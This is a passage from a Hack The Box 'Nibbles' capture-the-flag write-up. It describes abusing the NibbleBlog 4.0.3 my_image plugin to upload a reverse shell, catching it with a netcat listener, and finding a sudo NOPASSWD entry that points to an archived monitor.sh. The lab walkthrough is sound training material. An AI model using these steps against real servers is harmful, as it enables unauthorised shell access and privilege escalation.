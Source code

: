 ### 4. Get a shell on the machine
Now I have creds I can go back to the code execution vulnerability, detailed at https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html.
  
*Obtain Admin credentials (for example via Phishing via XSS which can
be gained via CSRF, see advisory about CSRF in NibbleBlog 4.0.3)
    Activate My image plugin by visiting
http://localhost/nibbleblog/admin.php?controller=plugins&action=install&plugin=my_image
    Upload PHP shell, ignore warnings
    Visit
http://localhost/nibbleblog/content/private/plugins/my_image/image.php.
This is the default name of images uploaded via the plugin.*
  
Basically once the image plugin is activated, I can upload arbritary files when making a post.
Firstly I verify/activate the plugin, by visiting http://10.129.60.60/nibbleblog/admin.php?controller=plugins&action=list.  
Then I go into the plugin settings, and upload my reverse shell. Then I can trigger it by visting nibbleblog/content/private/plugins/my_image/image.php with my listener running.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-hanbrktyaa]─[~/writeups/HackTheBox/HTB_Nibbles]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.110] from (UNKNOWN) [10.129.60.60] 46738
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:05:55 up  9:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$  
```

### 5. Enumerate from foothold
The first thing I do is check sudo permissions:
```bash
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
Checking out monitor.sh:
```bash
nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
```
The file doesn't exist.  
Looking at the contents of the user's home:
```bash
nibbler@Nibbles:/home/nibbler$ ls   
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip -l personal.zip
Archive:  personal.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2017-12-10 21:58   personal/
        0  2017-12-10 22:05   personal/stuff/
     4015  2015-05-08 03:17   personal/stuff/monitor.sh
---------                     -------
     4015                     3 files
```
This is where monitor.sh is.